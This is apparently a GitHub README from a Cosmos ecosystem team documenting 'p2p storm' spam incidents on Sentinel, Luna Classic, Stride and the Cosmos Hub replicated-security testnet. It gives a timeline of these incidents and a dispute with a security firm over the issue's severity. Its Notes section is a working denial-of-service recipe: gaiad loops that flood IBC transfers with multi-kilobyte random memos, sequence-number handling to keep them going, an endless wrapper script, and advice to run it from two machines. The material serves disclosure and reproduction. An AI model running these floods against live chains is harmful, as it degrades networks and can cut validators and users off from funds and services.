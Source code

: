 # Spammy

## Timeline

* 2021, Sept 
  * Issue first noticed on sentinel
    * [validator chat logs](./sentinel-evidence/sentinelvalidatortg/) 10/15/2021-12/15/2021
* 2022, May 
  * Issue occurs on Luna Classic, accelerating the loss of billions in user funds
  * Today, notably, Luna2 has a block size of 1MB and Terraform Labs confirmed that it is due to this
* 2023, August 15 
  * Issue occurs on Stride and Notional begins to investigate with suport from a broad group of teams.
* 2023, Sept 21
  * 8:01am - Jacob Gadikian adds Jessy Irwin to "invalid block parts" channel
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695272490812409
  * 8:54am - Jessy Irwin leaves "invalid block parts" channel without saying a word
    * https://notionalgroup.slack.com/archives/C05N6G0CLBB/p1695275679442249
  * 9:08am - Amulet subtweets this
    * https://x.com/amuletdotdev/status/1704739436335083941?s=20 
* 2023, Sept 25 
  * Notional Labs reproduces the issue on the cosmos hub replicated security testnet with the explicit approval of Hypha
* 2023, Sept 26
  * Notional labs has accelerated the attack
  * RS testnet blocks last 38 seconds each
  * Notional labs discontinues the attack on the RS testnet
* 2023, Sept 27
  * The network continues to experience degraded performance
  * Validator mempools remain [full](./mempoolcryptocrew.json) 
  * Block times are stil [7.9 seconds on average](./screenshots/hub-testnet/current-09-27_19-55-05.jpg), representing a service degredation of 33%
  * Full validator mempools could reduce access to the network for users
  * Network hasn't been attacked for over 18 hours
* 2023, Sept 28 7:16PM CET - amulet announces a low severity security issue with comet, likely because they've not got full context on the issue
  * https://x.com/amuletdotdev/status/1707429071213511090
  * https://github.com/cometbft/cometbft/security/advisories/GHSA-hq58-p9mv-338c 
* 2023, Sept 29 2:14PM CET
  * Cosmos hub replicated security testnet continues to have degraded performance due to gossiping of invalid block parts, logs below.
 

It is my strong belief that Amulet does not understand the nature of the situation because they've failed to communicate with the numerous teams involved.  If they were to even just sync the cosmos hub replicated security testnet, they would immediately see that it is still suffering from the previous attack. 

Amulet seems to have not understood that there are numerous issues at play, despite being in possession of this report:

https://docs.google.com/document/d/1oCjsVYMaV77etxOEbDxh58vkAQaXf7RAkhXvF_8GYis/edit




## Tooling and documentation for the reproduction of:

* banana king
* client update spam
* banana client

In an effort to reporoduce a p2p storm on the cosmos hub testnet. 


### it has been [reproduced](./REPRODUCITON.md)






## Links to explorer

* **client updates**
 * https://ping.pub/cosmos/tx/2BA652123FFD549CCFA672BDD596801DABAD680029EA817369814DE5750DB4AB

* **testing wallet - mainnet**
  * https://www.mintscan.io/cosmos/address/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq
  * txns were made so that they fail intentionally.

* **testing wallet - testnet**
  * will vary between failed transactions and successes
  * goal is to increase block time on the testnet
  * https://explorer.rs-testnet.polypore.xyz/ 
  


## Target

We're looking to transmit a "banana client".  This transaction will 


## P2P storms have occured on the following networks:

* Sentinel
* Luna Classic
  * Led to economic harm 
* Stride


## Notes

Change the maximum request body size in config.toml

```toml
# Maximum size of request body, in bytes
max_body_bytes = 100000000
```

Generate a random string (hex output)

```bash
openssl rand -hex 10000000
```

Sign a transcation


Broadcast a transaction (oddly cli won't broadcast, we'll need to chain it)
```bash
gaiad tx broadcast bananasigned1.json --home ~/.gaia-rs
```

Abuse the ibc memo field
```bash
gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes
 ```

 Abuse the ibc memo field fast
 ```bash
 for (( ; ; )); do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 10000) --chain-id provider --gas auto --yes ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number
 ```bash
 for i in {2000..3000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; done
 ```

 Abuse the ibc memo field fast and avoid problems with the sequence number, wait a tenth of a second between runs
 ```bash
for i in {3045..5000}; do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i ; sleep .1 ; done
```

Abuse ibc memos using the account sequence to start


  Loop the loop script
```bash
while true ; do bash attack2.bash ; done
```

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```
but do it from two machines

```bash
set -e

SEQUENCE=$(curl http://127.0.0.1:1317/cosmos/auth/v1beta1/accounts/cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq | jq --raw-output ' .account.sequence ')

for i in $( eval echo {"$SEQUENCE"..10000000} )
         do gaiad tx ibc-transfer transfer transfer channel-58 cosmos140rptve4cr0mxgknzprl86868nfslydfyem3nq 1uatom --from test --keyring-backend test --home ~/.gaia-rs --memo $(openssl rand -hex 50000) --chain-id provider --gas auto --yes --sequence $i
         done
```






 Hub testnet blcok range 3881725 to 3881733





